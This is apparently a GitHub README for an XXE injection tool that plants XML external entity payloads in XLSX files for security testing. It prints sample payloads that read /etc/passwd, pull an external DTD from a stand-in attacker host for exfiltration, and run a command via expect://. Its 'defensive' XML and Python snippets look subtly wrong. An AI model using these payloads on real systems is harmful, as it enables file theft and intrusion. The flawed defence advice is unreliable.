


# 🔥 XXE XLSX Injection Tool


<div align="center">
  
  
  
  
  
</div>

<div align="center">
  <h3>🎯 Advanced XML External Entity (XXE) Vulnerability Testing Framework</h3>
  <p><em>A comprehensive security testing tool for identifying and exploiting XXE vulnerabilities in XLSX files</em></p>
</div>

---

## 📋 Table of Contents

- [🔍 Overview](#-overview)
- [🏗️ Architecture](#️-architecture)
- [🚀 Features](#-features)
- [🔄 Application Flow](#-application-flow)
- [⚙️ Installation](#️-installation)
- [🎮 Usage](#-usage)
- [🔬 XXE Attack Types](#-xxe-attack-types)
- [📊 Project Structure](#-project-structure)
- [🌐 Deployment](#-deployment)
- [🛡️ Security Considerations](#️-security-considerations)
- [🤝 Contributing](#-contributing)
- [📄 License](#-license)

---

## 🔍 Overview

The **XXE XLSX Injection Tool** is a sophisticated security testing framework designed to identify and exploit XML External Entity (XXE) vulnerabilities in Microsoft Excel (.xlsx) files. This tool provides security researchers, penetration testers, and developers with a comprehensive platform to:

- **Generate** various XXE payloads
- **Inject** malicious XML entities into XLSX files
- **Test** applications for XXE vulnerabilities
- **Analyze** file structures and injection points

### 🎯 Target Audience
- Security Researchers
- Penetration Testers
- Application Security Engineers
- Bug Bounty Hunters
- Developers (for secure coding practices)

---

## 🏗️ Architecture


```mermaid
graph TB
    subgraph "Frontend (React)"
        A[File Upload Component] --> B[Payload Generator]
        B --> C[Results Display]
        C --> D[File Preview]
    end
    
    subgraph "Backend (Flask)"
        E[API Gateway] --> F[XXE Generator]
        E --> G[XLSX Processor]
        E --> H[File Analyzer]
        F --> I[Payload Templates]
        G --> J[XML Injection Engine]
        H --> K[Structure Parser]
    end
    
    subgraph "File Processing"
        L[XLSX Upload] --> M[ZIP Extraction]
        M --> N[XML Parsing]
        N --> O[Payload Injection]
        O --> P[File Reconstruction]
        P --> Q[Download]
    end
    
    A --> E
    B --> F
    C --> G
    D --> H
    
    style A fill:#e1f5fe
    style E fill:#f3e5f5
    style L fill:#fff3e0
```

### 🔧 Technology Stack

| Component | Technology | Purpose |
|-----------|------------|----------|
| **Frontend** | React 18.2.0 + TailwindCSS | Modern, responsive UI |
| **Backend** | Flask 2.3.3 + Python 3.11+ | RESTful API server |
| **File Processing** | openpyxl, zipfile | XLSX manipulation |
| **Security** | Custom XXE payloads | Vulnerability testing |
| **Deployment** | Vercel + Render | Cloud hosting |

---

## 🚀 Features

### 🎯 Core Capabilities

- **🔥 Multi-Format Support**
  - Single XLSX files
  - Batch ZIP archives
  - Real-time file analysis

- **⚡ Advanced Payload Generation**
  - DOCTYPE declarations
  - XInclude attacks
  - External DTD references
  - SVG-based payloads
  - Custom payload creation

- **🛠️ Intelligent Injection**
  - Automatic XML structure detection
  - Multiple injection points
  - Payload optimization
  - File integrity preservation

- **📊 Comprehensive Analysis**
  - File structure visualization
  - Injection point identification
  - Success/failure reporting
  - Download processed files

### 🎨 User Experience

- **Modern UI/UX** with cyberpunk-inspired design
- **Drag & Drop** file upload
- **Real-time** payload preview
- **Interactive** results dashboard
- **Mobile-responsive** design

---

## 🔄 Application Flow


```mermaid
flowchart TD
    Start([🚀 Start]) --> Upload[📁 Upload XLSX/ZIP]
    Upload --> Validate{✅ Valid File?}
    
    Validate -->|❌ No| Error[❌ Show Error]
    Error --> Upload
    
    Validate -->|✅ Yes| Analyze[🔍 Analyze Structure]
    Analyze --> Generate[⚡ Generate Payloads]
    
    Generate --> Select[🎯 Select Payload Type]
    Select --> Configure[⚙️ Configure Parameters]
    
    Configure --> Inject[💉 Inject XXE Payload]
    Inject --> Process{🔄 Processing}
    
    Process -->|✅ Success| Results[📊 Show Results]
    Process -->|❌ Failed| ErrorMsg[❌ Show Error Message]
    
    Results --> Preview[👁️ Preview Modified File]
    Results --> Download[💾 Download File]
    
    Preview --> NewFile{🔄 Process New File?}
    Download --> NewFile
    ErrorMsg --> NewFile
    
    NewFile -->|✅ Yes| Upload
    NewFile -->|❌ No| End([🏁 End])
    
    style Start fill:#4caf50
    style End fill:#f44336
    style Inject fill:#ff9800
    style Results fill:#2196f3
```

### 📋 Detailed Workflow

1. **File Upload Phase**
   - User uploads XLSX or ZIP file
   - File validation and type checking
   - Structure analysis and parsing

2. **Payload Generation Phase**
   - XXE payload template selection
   - Parameter configuration (URLs, collaborators)
   - Custom payload creation options

3. **Injection Phase**
   - XML structure identification
   - Strategic payload placement
   - File integrity maintenance

4. **Results Phase**
   - Success/failure reporting
   - Modified file preview
   - Download processed files

---

## ⚙️ Installation

### 🔧 Prerequisites

```bash
# Required Software
- Python 3.11+
- Node.js 18+
- npm or yarn
- Git
```

### 📦 Quick Setup

```bash
# 1. Clone the repository
git clone https://github.com/Bhuvanesh3602/XXE-XLSX-INJECTION-TOOL-.git
cd XXE-XLSX-INJECTION-TOOL-

# 2. Backend Setup
cd backend
pip install -r requirements.txt

# 3. Frontend Setup
cd ../frontend
npm install

# 4. Start Development Servers
# Terminal 1 (Backend)
cd backend && python app.py

# Terminal 2 (Frontend)
cd frontend && npm start
```

### 🐳 Docker Setup (Optional)

```dockerfile
# Dockerfile example
FROM python:3.11-slim
WORKDIR /app
COPY requirements.txt .
RUN pip install -r requirements.txt
COPY . .
EXPOSE 5000
CMD ["python", "app.py"]
```

---

## 🎮 Usage

### 🚀 Basic Usage

1. **Start the Application**
   ```bash
   # Backend (Port 5000)
   python backend/app.py
   
   # Frontend (Port 3000)
   npm start --prefix frontend
   ```

2. **Access the Interface**
   - Open `http://localhost:3000`
   - Upload your XLSX file
   - Select payload type
   - Configure parameters
   - Inject and download

### 📋 API Endpoints

| Endpoint | Method | Description |
|----------|--------|-------------|
| `/api/health` | GET | Health check |
| `/api/generate-payloads` | POST | Generate XXE payloads |
| `/api/inject-xxe` | POST | Inject payload into file |
| `/api/analyze-file` | POST | Analyze file structure |
| `/api/download/<filename>` | GET | Download processed file |

### 🔧 API Usage Examples

```python
# Generate Payloads
import requests

response = requests.post('http://localhost:5000/api/generate-payloads', json={
    'target_url': 'file:///etc/passwd',
    'collaborator': 'https://your-collaborator.com',
    'attack_type': 'doctype'
})

print(response.json())
```

```javascript
// Inject XXE Payload
const formData = new FormData();
formData.append('file', fileInput.files[0]);
formData.append('payload_type', 'doctype');
formData.append('payload', xxePayload);

fetch('/api/inject-xxe', {
    method: 'POST',
    body: formData
})
.then(response => response.json())
.then(data => console.log(data));
```

---

## 🔬 XXE Attack Types

### 1. 📄 DOCTYPE Declaration Attacks

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>
```

**Use Cases:**
- File disclosure attacks
- Internal network scanning
- Denial of Service (DoS)

### 2. 🔗 XInclude Attacks

```xml
<data xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include href="file:///etc/passwd" parse="text"/>
</data>
```

**Use Cases:**
- Bypass DOCTYPE restrictions
- Include external resources
- Server-side request forgery (SSRF)

### 3. 📋 External DTD References

```xml
<!DOCTYPE data SYSTEM "https://attacker.com/evil.dtd">
<data>&exfil;</data>
```

**Use Cases:**
- Out-of-band data exfiltration
- Remote DTD loading
- Blind XXE attacks

### 4. 🎨 SVG-based Payloads

```xml
<svg xmlns="http://www.w3.org/2000/svg">
    <image xlink:href="expect://id"></image>
</svg>
```

**Use Cases:**
- Command execution
- Alternative XML contexts
- Bypass content filters

---

## 📊 Project Structure

```
XXE-XLSX-INJECTION-TOOL/
├── 📁 backend/                 # Flask API Server
│   ├── 📄 app.py              # Main application
│   ├── 📄 xxe_generator.py    # Payload generation
│   ├── 📄 xlsx_processor.py   # File processing
│   ├── 📄 requirements.txt    # Python dependencies
│   └── 📁 processed/          # Output files
│
├── 📁 frontend/               # React Frontend
│   ├── 📁 src/
│   │   ├── 📁 components/     # React components
│   │   │   ├── 📄 FileUpload.js
│   │   │   ├── 📄 PayloadGenerator.js
│   │   │   └── 📄 Results.js
│   │   ├── 📄 App.js          # Main app component
│   │   └── 📄 config.js       # Configuration
│   ├── 📄 package.json       # Node dependencies
│   └── 📄 tailwind.config.js # Styling config
│
├── 📄 README.md              # This file
├── 📄 .gitignore             # Git ignore rules
├── 📄 vercel.json            # Vercel deployment
└── 📄 netlify.toml           # Netlify deployment
```

### 🔍 Key Components

- **`xxe_generator.py`**: Core payload generation logic
- **`xlsx_processor.py`**: XLSX file manipulation and injection
- **`FileUpload.js`**: Drag-and-drop file upload interface
- **`PayloadGenerator.js`**: Interactive payload configuration
- **`Results.js`**: Results visualization and file download

---

## 🌐 Deployment

### ☁️ Cloud Deployment Options

| Platform | Frontend | Backend | Cost | Setup Time |
|----------|----------|---------|------|------------|
| **Vercel + Render** | ✅ | ✅ | Free | 5 min |
| **Netlify + Railway** | ✅ | ✅ | Free | 7 min |
| **Firebase + GCP** | ✅ | ✅ | Pay-as-go | 15 min |
| **AWS Amplify + Lambda** | ✅ | ✅ | Pay-as-go | 20 min |

### 🚀 Quick Deployment (Vercel)

```bash
# 1. Install Vercel CLI
npm install -g vercel

# 2. Deploy Frontend
cd frontend
vercel --prod

# 3. Deploy Backend (use Render/Railway)
# Push to GitHub and connect to Render
```

### 🔧 Environment Variables

```bash
# Frontend (.env)
REACT_APP_API_URL=https://your-backend-url.com

# Backend (.env)
FLASK_ENV=production
PORT=5000
```

---

## 🛡️ Security Considerations

### ⚠️ Important Warnings

> **🚨 ETHICAL USE ONLY**
> 
> This tool is designed for legitimate security testing purposes only. Users must:
> - Have explicit permission to test target systems
> - Comply with applicable laws and regulations
> - Use responsibly in authorized environments
> - Not use for malicious purposes

### 🔒 Security Best Practices

1. **Input Validation**
   - File type verification
   - Size limitations
   - Content sanitization

2. **Output Sanitization**
   - Safe file handling
   - Temporary file cleanup
   - Secure downloads

3. **Access Control**
   - Rate limiting
   - Authentication (if needed)
   - Audit logging

### 🛡️ Defensive Measures

```xml
<!-- Disable external entities -->
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY % external SYSTEM "">
%external;
]>
```

```python
# Python XML parsing security
import xml.etree.ElementTree as ET

# Disable external entity processing
ET.XMLParser(resolve_entities=False)
```

---

## 🤝 Contributing

### 🌟 How to Contribute

1. **Fork** the repository
2. **Create** a feature branch
3. **Make** your changes
4. **Test** thoroughly
5. **Submit** a pull request

### 📋 Contribution Guidelines

- Follow existing code style
- Add tests for new features
- Update documentation
- Ensure security best practices

### 🐛 Bug Reports

Please include:
- Detailed description
- Steps to reproduce
- Expected vs actual behavior
- Environment details

---

## 📄 License

```
MIT License

Copyright (c) 2024 Bhuvanesh S

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```

---

<div align="center">
  <h3>🔥 Built with ❤️ by <a href="https://github.com/Bhuvanesh3602">Bhuvanesh S</a></h3>
  <p><em>For educational and authorized security testing purposes only</em></p>
  
  <a href="https://github.com/Bhuvanesh3602/XXE-XLSX-INJECTION-TOOL-/stargazers">
    
  </a>
  <a href="https://github.com/Bhuvanesh3602/XXE-XLSX-INJECTION-TOOL-/network/members">
    
  </a>
  <a href="https://github.com/Bhuvanesh3602/XXE-XLSX-INJECTION-TOOL-/issues">
    
  </a>
</div>

---

### 📞 Contact & Support

- **GitHub**: [@Bhuvanesh3602](https://github.com/Bhuvanesh3602)
- **Email**: bhuvanesh.s2024aids@sece.ac.in
- **LinkedIn**: [Connect with me](https://linkedin.com/in/bhuvanesh-s)

**⭐ If this project helped you, please give it a star!**
